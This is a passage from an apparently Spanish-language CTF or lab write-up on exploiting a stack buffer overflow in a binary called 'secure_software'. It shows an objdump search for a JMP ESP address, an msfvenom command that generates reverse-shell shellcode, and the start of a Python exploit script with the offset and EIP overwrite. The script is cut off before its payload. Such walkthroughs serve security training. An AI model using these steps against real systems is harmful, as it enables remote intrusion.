 Ahora usaremos **objdump** para saber cual es la dirección de memoria la cual nos permite realizar el **JMP ESP** y vemos que la dirección es `0x08049213`.

```bash
objdump -d secure_software | grep "FF E4" -i
```

![](<../images/Pasted image 20240914171451.png>)

Usando **msfvenom** nos generaremos un shellcode el cual nos permita enviarnos una [Reverse Shell](<../../🐱‍💻 Introducción al Hacking/💣 Conceptos de explotación/Formas enviarnos una bash 💻/Reverse Shell.md>), para ello podemos introducir el siguiente comando:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -b '\x00\x0a\x0d' -f py
```

![](<../images/Pasted image 20240914171733.png>)

Finalmente, lo que debemos hacer ahora es introducir la dirección de memoria del **JMP ESP** en la variable **EIP** para que se aplique dicho salto, destacar que debe de estar en formato little endian, además cargaremos nuestro shellcode el cual nos enviará una [Reverse Shell](<../../🐱‍💻 Introducción al Hacking/💣 Conceptos de explotación/Formas enviarnos una bash 💻/Reverse Shell.md>) al puerto **443**, y por último debemos añadir unos **NOPs** (`\x90`) antes de nuestro shellcode para que sea interpretado correctamente.

> Destacar que también debemos cambiar la [Dirección IP](<../../🐱‍💻 Introducción al Hacking/🅱 Conceptos Básicos/Dirección IP.md>) para ahora apuntar al puerto **20201** de la máquina víctima, pues este tenía el mismo binario.

```python
#!/usr/bin/env python3

import socket
from struct import pack

ip_addr = "172.17.0.2" # Cambiaremos la IP para apuntar al puerto 20201 de la máquina vícitma.
port = 20201

offset = 288
before_eip = b"A"*offset 
eip = pack("<L", 0x08049213) # Añadimos la dirección memoria que tiene el opcode que aplica un jmp esp.

# Añadimos el shellcode el cual nos permite enviarnos una reverse shell.
shellcode =  b""
```